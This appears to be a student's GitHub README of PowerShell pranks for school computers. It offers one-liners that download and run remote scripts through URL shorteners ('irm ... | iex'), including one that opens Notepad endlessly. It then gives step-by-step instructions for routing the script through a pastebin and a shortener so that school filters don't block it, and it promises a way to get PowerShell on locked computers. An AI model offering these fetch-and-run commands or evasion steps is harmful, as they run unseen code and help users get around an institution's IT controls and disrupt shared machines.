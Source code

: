 # WELCOME
This is the collection of the school activities, shenanigans, etc.

:

- [powershell](#powershell)
    - [the scripts](#scripting)
    - [how its made](#creation)
    - [getting powershell](#access)

--- 

## PowerShell

### scripting

#### open notepad, forever... 

##### (BE CAREFUL, I AM NOT RESPONSIBLE FOR ANY DAMAGES)

``` irm "http://tiny.cc/alwaysnotepad" | iex ``` [file](/note.ps1)

#### print the entire bee movie script in the shell (I was hella bored)

``` irm "http://tiny.cc/beepowershell" | iex ``` not documented,

### creation

1. make file and upload to github
    - any file type works but i usually have it in ps1 for ease of testing amd readability
2. go to any paste bin service unblocked by your school and make a link to the raw
    - I'm not sharing mine as it will get blocked
    - in this file make a script that executes the script on github
    - the script goes like ``` irm "website url" | iex ```
      -   irm - invoke rest method - gets the script from provided source
      -   | - pipe - it sends the output of whats before to whats after
      -   iex - invoke execution - executes the script
3. now put this new link in a url shortener to make it easy to execute and name it something memorable
4. execute - just run ``` irm "your short url" | iex ``` , you could have used the github link but this you can remember
5. with the file on github you can modify any time, because most url shorteners block github, pastebins are key.


### access

#### How to get powershell on our locked computers...

coming soon to a computer near you...
---
